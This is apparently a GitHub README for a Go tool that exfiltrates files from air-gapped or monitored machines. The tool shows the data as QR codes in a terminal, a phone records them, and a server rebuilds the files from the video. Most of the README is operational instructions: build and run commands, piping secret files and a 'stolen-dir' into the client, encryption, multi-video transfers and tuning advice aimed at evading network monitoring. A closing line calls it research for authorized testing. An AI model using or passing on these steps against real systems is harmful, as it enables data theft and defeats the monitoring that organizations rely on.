




<p align="center">
  
</p>

<br>

Exfiltrate data as **QR codes captured on video** — a cover channel that never touches the
network.

The idea: data leaves the air-gapped (or monitored) machine by being *looked at*. A client
renders the payload as a stream of QR codes **directly in your terminal**; a phone records
them on video; the video is uploaded to a server you control, which extracts the frames,
reads every QR code, and reconstructs the original file. No packets, no USB, no network
monitoring alerts — just a video file that looks like any other.

The pipeline is protected by **RaptorQ fountain coding** (erasure coding): the client emits
more symbols than are strictly needed, so the server can reconstruct the payload even when
the video drops frames — no re-recording required in the common case.

```
              client (monitored machine)                        server (your machine)
              ──────────────────────────                        ──────────────────────
  file / dir / stdin
        │
        ▼
  [AES-GCM encrypt] ──► zstd compress ──► RaptorQ encode ──► symbol stream (k + redundancy)
                                                        │
                                          each symbol framed + rendered as a
                                          QR code in the terminal (half-blocks)
                                                        │
                                              ┌─────────▼──────────┐
                                              │  symbol #1         │   ◄── phone films
                                              │  symbol #2         │       the terminal
                                              │  ...               │
                                              └─────────┬──────────┘
                                                        │  video upload (http/https)
                                                        ▼
                                     ffmpeg frame extraction ──► QR recognition (gozxing
                                                        │        multi-scale + goqr fallback)
                                          RaptorQ decode (any solvable subset, per job)
                                                        │
                                              zstd decompress ──► [AES-GCM decrypt]
                                                        │
                                                        ▼
                                                   payload/jobs/<job>/  ✓
```

## In action

**Client** — the payload is shown as QR codes in the terminal (auto-fitted to the window),
with a live progress bar. Point your phone at it and record:



**Server** — upload the video; it extracts the frames, decodes the QRs, reconstructs the
payload, and prints a verification code to confirm the transfer:



**Grid mode** — `--grid 2` shows two QR codes per frame (higher symbol rate, easier to
scan) on a wide terminal:



## Tech stack

* **zstd** (compression) — the payload is compressed before it becomes QR codes. zstd is
  fast and compresses text/PDFs/source far better than the classic gzip or the old smaz,
  so fewer symbols, fewer frames, shorter recording. It's pure Go (no cgo), so the binary
  stays portable.
* **RaptorQ** (erasure / fountain coding) — the payload is split into a stream of symbols
  with redundancy, so the server can reconstruct it from *any* sufficient subset. A dropped
  or unreadable frame is absorbed instead of corrupting the file or forcing a re-record.
  RaptorQ (RFC 6330) scales to tens of thousands of symbols, unlike plain Reed-Solomon
  (capped at 255), which is why a large transfer works at all.
* **gozxing** (QR decoding) — a strong, maintained QR reader used in a multi-scale ladder
  (native, 2×, 0.5×) with a legacy fallback. It's far more tolerant of the compression
  artifacts, blur, and scaling a phone video introduces than a single reader at one scale.

## Requirements

* [Go](https://go.dev) 1.26+
* [ffmpeg](https://ffmpeg.org) on `PATH` (server mode only)
* A phone and a steady hand (client mode)
* A terminal with a **monospace font** — QR codes are drawn with Unicode half-blocks
  (`█▀▄`), so no browser is needed

## Build

```sh
go build -o goqrexfil .
```

## Quick start

**1. Start the server** on a machine you control:

```sh
./goqrexfil --server                 # http://<server>:9999
./goqrexfil --server --token SECRET  # require a shared token
./goqrexfil --server --key PASSPHRASE  # decrypt encrypted payloads
./goqrexfil --server --tls           # HTTPS with a self-signed cert (fingerprint printed)
```

**2. Record the QR stream** on the monitored machine. Point your phone at the terminal
(zoom so the QR fills most of the frame). A warm-up pattern is shown first so the phone's
auto-focus and exposure lock, then the stream starts:

```sh
cat top.secret.file | ./goqrexfil --client
[*] Client mode: ON
[*] Source: stdin (8.2 KiB)
Plaintext hash 9f2c...
Verification code K7PD-4MQX
[*] Terminal 120x40: auto-fit symbol size = 99 B
[*] 84 base symbols, 126 total (redundancy 50%, mode z, 99 B/symbol)
[*] This video: symbols 1-126 (126 of 126) in 126 frames (1/frame, 300ms dwell)
[*] Estimated recording time: ~38s
[***] Point your phone at this terminal; the stream starts in > 3 < seconds ****
```

**3. Upload the video** from your phone to `http://<server>:9999/` (add `?token=SECRET`
if you set one) and submit. The server reconstructs as soon as it has enough symbols and
responds with a download link and a verification code:

```
[*] File received (job: default)
[*] received 25 symbols (need ~38)
[*] Payload reconstructed from 41 symbols (need ~38)
[*] Payload saved as  payload/jobs/default/payload.bin
Payload hash 9f2c...
Verification code K7PD-4MQX
```

Compare the **verification code** from step 2 with the one from step 3 — they must match
(a short human-readable check, e.g. `K7PD-4MQX`, instead of comparing long hex hashes by
eye). Then download the file from `http://<server>:9999/payload`.

## Why it's reliable: fountain coding

Each QR code is a **RaptorQ symbol**, not a fixed chunk. The client emits `k` base symbols
plus a redundancy pool (default 50%), and the server can reconstruct the payload from
**any** solvable subset of the symbols it captured. That means:

* Dropped frames, motion blur, and missed QRs are absorbed by the redundancy — a typical
  recording reconstructs on the first try.
* The server shows live progress (`received N symbols (need ~k)`) and **stops scanning as
  soon as the payload is decodable**, instead of processing the whole video.
* If a recording genuinely captured too little, the server tells you — just re-record.
  Because it's a fountain code, *any* additional symbols help, so there's no "re-record
  chunks 4, 8, 12" bookkeeping.

Tune the trade-off with `--redundancy` (percent of base symbols): higher = longer video but
more tolerant of a bad recording.

```sh
./goqrexfil --client --redundancy 100 top.secret.file   # very robust, ~2x longer
```

## Large transfers: split across multiple videos

A single recording has a practical length limit, but a big payload can span **several
videos**. Because RaptorQ symbols are addressable, the server keeps a **job** and
accumulates symbols across every upload to that job — it decodes as soon as the *union* of
all uploaded videos is a solvable subset.

Split the stream with `--start` (first symbol, 1-based) and `--count` (how many):

```sh
./goqrexfil --client --job big --start 1   --count 20000 ./huge-dir   # video 1
./goqrexfil --client --job big --start 20001 --count 20000 ./huge-dir # video 2
./goqrexfil --client --job big --start 40001 ./huge-dir               # video 3 (to the end)
```

Upload each video to the same job (`job=big` in the form, or `?job=big`). After each upload
the server reports progress — `Job big in progress: 12345 symbols (need ~26000)` — and
completes once enough have arrived. `GET /jobs` lists every job and its status.

## Directory and multi-file exfiltration

Point the client at a directory and it packs everything into a tar.gz with a SHA-256
manifest; the server unpacks it to `payload/jobs/<job>/extracted/` and verifies every file
against the manifest:

```sh
./goqrexfil --client ./stolen-dir
[*] Source: stolen-dir (1.2 MiB)
[*] 5120 base symbols, 7680 total (redundancy 50%)
[*] Estimated recording time: ~4224s
```

A single file works the same way: `./goqrexfil --client ./top.secret.pdf`.

**Preview before you record** with `--dry-run` (shows size, symbol count, and time
estimate, displays nothing):

```sh
./goqrexfil --client --dry-run ./stolen-dir
```

## Encryption

By default the payload is only obfuscated, not protected — anyone who intercepts the video
can read it. Add `--key` on **both** ends to encrypt the payload with AES-256-GCM before it
ever becomes QR codes. The key never crosses the channel; the server needs the same
passphrase to decrypt:

```sh
# client
./goqrexfil --client --key "correct horse battery staple" ./top.secret.pdf
# server
./goqrexfil --server --key "correct horse battery staple"
```

The key is turned into a 256-bit key via SHA-256. If the server is given the wrong (or no)
key, decryption fails and no payload is produced.

## Self-test (no camera needed)

Verify the whole encode → QR → decode → RaptorQ-reconstruct pipeline locally. It simulates
an 80% capture and confirms the payload still reconstructs:

```sh
cat top.secret.file | ./goqrexfil --selftest
[*] 26 base symbols, 39 total (mode z)
[*] PASS: round-trip OK from 80% of symbols, verification code K7PD-4MQX
```

Add `--key` to also exercise the encryption path.

## Robust QR decoding

Each extracted frame is decoded by a **ladder**: gozxing (a strong, maintained reader) at
native, 2×, and 0.5× scale, then the legacy goqr reader as a fallback. The first success
wins. This makes recognition far more tolerant of compression artifacts, blur, and slight
scaling than a single reader at one scale.

The repo ships end-to-end tests (`goqrexfil_test.go`) that build a real mp4 from QR frames
and run the full server pipeline — including tests that **drop 25% of the symbols and still
reconstruct the payload**, **split one payload across two video uploads (job assembly)**,
and **round-trip an encrypted payload**:

```sh
go test ./...
```

## Fitting your terminal (auto-density, grid, dwell)

A QR code is only as good as the terminal it's drawn in. The tool **auto-fits** the symbol
size to your actual terminal so it never clips — it queries the real TTY size (works on
Windows conhost/Windows Terminal, macOS Terminal, and Linux; it does *not* rely on
`$COLUMNS`, which cmd.exe doesn't set) and picks the largest symbol that fits:

```sh
./goqrexfil --client --dry-run ./file
[*] Terminal 120x30: auto-fit symbol size = 33 B
[*] 152 base symbols, 228 total (redundancy 50%, mode z, 33 B/symbol)
```

The bigger the terminal, the bigger each QR, the fewer frames, and the faster the transfer.
The practical reality for common terminals (incompressible data, 50% redundancy, 300 ms
dwell):

| Terminal | Auto-fit symbol | Bytes/frame | 1 MB takes (approx) |
| --- | --- | --- | --- |
| 80×24 (cmd.exe / Terminal.app default) | 9 B | 9 | ~75 h (use `--no-quiet-zone` → 27 B) |
| 120×30 (Windows Terminal default) | 33 B | 33 | ~3.9 h |
| 120×40 | 99 B | 99 | ~78 min |
| 200×50 | 195 B | 195 | ~40 min |
| 200×50 with `--grid 2` | 195 B ×2 | 390 | ~20 min |

**Make the terminal as big as you comfortably can** — it's the single biggest lever on
throughput. If it's small, `--no-quiet-zone` shrinks each QR by 8 columns/rows so a bigger
one fits.

### Grid (multiple QRs per frame)

`--grid N` renders N QR codes side by side in each frame; the server decodes all of them
(find-blank-repeat). This raises the **symbol rate** and, because each code is smaller, is
often **easier to scan** (more robust). It only helps when the terminal is wide enough to
fit the extra codes — on a narrow terminal auto-fit will pick `--grid 1` anyway. Use a wide
terminal (200+ columns) to get the most from `--grid 2`.

### Dwell time

`--dwell` is how long each frame is held, in ms. The default **300 ms** is the safe floor
for phones that record at 30 fps (it guarantees ≥3 camera frames plus time for the
auto-focus/exposure to lock). Lower it (e.g. `--dwell 150`) only if you know your phone
records at 60/120 fps and you've verified it still decodes — lower dwell = faster but
riskier.

## Reference

### Flags

| Flag | Description |
| --- | --- |
| `--client [path]` | Read payload from `path` (file or directory) or stdin, display QR stream |
| `--client --dry-run` | Show symbol count + time estimate, display nothing |
| `--client --redundancy N` | RaptorQ redundancy as % of base symbols (default 50) |
| `--client --symbol-size N` | Raw bytes per QR symbol (0 = auto-fit to the terminal, the default) |
| `--client --grid N` | QR codes shown side by side per frame (default 1; 2 needs a wide terminal) |
| `--client --dwell N` | ms each frame is held (default 300, 30fps-safe) |
| `--client --key PASSPHRASE` | Encrypt the payload with AES-256-GCM |
| `--client --job NAME` | Job name (matches the server job for multi-video assembly) |
| `--client --start N` | First symbol to display (1-based), to split a transfer across videos |
| `--client --count N` | Number of symbols to display (0 = to the end) |
| `--client --no-quiet-zone` | Omit the QR quiet zone to fit a bigger QR in a narrow terminal |
| `--client --no-warmup` | Skip the warm-up focus/exposure pattern |
| `--server` | Web server on port 9999: upload video, reconstruct payload |
| `--server --token SECRET` | Require the shared token on upload/download |
| `--server --key PASSPHRASE` | Decrypt encrypted payloads |
| `--server --tls` | Serve over TLS (self-signed cert, fingerprint printed) |
| `--server --tls-cert C --tls-key K` | Use your own TLS cert/key |
| `--selftest [path]` | Local round-trip test of the QR pipeline, no camera needed |
| `--retrievePayload --job NAME` | Re-process `./public/video.mp4` without the web server (debug) |

### Server endpoints

| Endpoint | Description |
| --- | --- |
| `GET /` | Upload form (add `?token=…` if a token is set) |
| `POST /upload` | Upload a video (multipart `file`, max 512 MB; `job` field selects the job); returns download link, progress, or a "re-record" notice |
| `GET /payload?job=NAME` | Download the reconstructed payload for a job |
| `GET /jobs` | List all jobs and their status (received/needed symbols, verification code) |
| `GET /process/` | Static access to extracted frames (debugging) |

### The symbol protocol

Each QR code encodes `GQ3:<mode>:<blobLen>:<symbolID>:<base64(symbol)>` where `<mode>` is
`z` (zstd-compressed) or `ze` (zstd-compressed then AES-GCM encrypted), `<blobLen>` is the
exact byte length of that blob (the RaptorQ decoder needs it), `<symbolID>` indexes the
fountain symbol, and `<base64(symbol)>` is the base64 of one RaptorQ symbol (its size is
set by `--symbol-size`, auto-fitted to the terminal by default). The `:` separators cannot
appear in base64, so framing is unambiguous.

## Throughput

Throughput depends on your terminal, because the symbol size auto-fits it. Each frame is
held for the dwell time (default 300 ms), and 50% redundancy means you emit 1.5 symbols per
base symbol. RaptorQ pads the symbol count, so treat these as **approximate worst-case**
(incompressible data) figures — run `--dry-run` for the exact count and time for your
payload and terminal:

| Terminal (auto-fit) | Bytes/frame | 1 KB | 100 KB | 1 MB |
| --- | --- | --- | --- | --- |
| 80×24 (cmd.exe / Terminal.app) | 9 | ~50 s | ~9 h | ~75 h |
| 120×30 (Windows Terminal) | 33 | ~14 s | ~23 min | ~3.9 h |
| 120×40 | 99 | ~5 s | ~8 min | ~78 min |
| 200×50 | 195 | ~2 s | ~4 min | ~40 min |
| 200×50, `--grid 2` | 390 | ~1 s | ~2 min | ~20 min |

Compressible payloads (text, PDFs, source) shrink under zstd and transfer proportionally
faster. Lower `--redundancy` shortens the video at the cost of less tolerance for a bad
recording.

## Tuning

Constants at the top of `goqrexfil.go`:

* `defaultDwell` — default dwell time per frame (300 ms, 30fps-safe). Override with
  `--dwell`.
* `defaultGrid` — default QR codes per frame (1). Override with `--grid`.
* `defaultSymbolSize` — fallback symbol size when the terminal can't be detected
  (120 B). Normally auto-fit overrides this; override with `--symbol-size`.
* `gridGap` — modules of gap between grid cells (2, on top of the quiet zones).
* `ffmpegImageScale` — frames are extracted at native resolution, capped at 1600 px wide
  for 4K video. Never downscale below ~600 px: QR recognition fails below that.

## Limitations

* The server is plain HTTP by default with no authentication — use `--token` and/or `--tls`
  before pointing it at anything but a trusted network, and stop it when done.
* Recognition quality depends on the recording: steady hand, good lighting, QR filling the
  frame, monospace terminal font. Fountain coding absorbs some loss, but a very bad
  recording may still need a re-take.
* This is a research/education project about cover channels. Use it only on systems you own
  or are authorized to test.

## License

See [LICENSE](LICENSE).
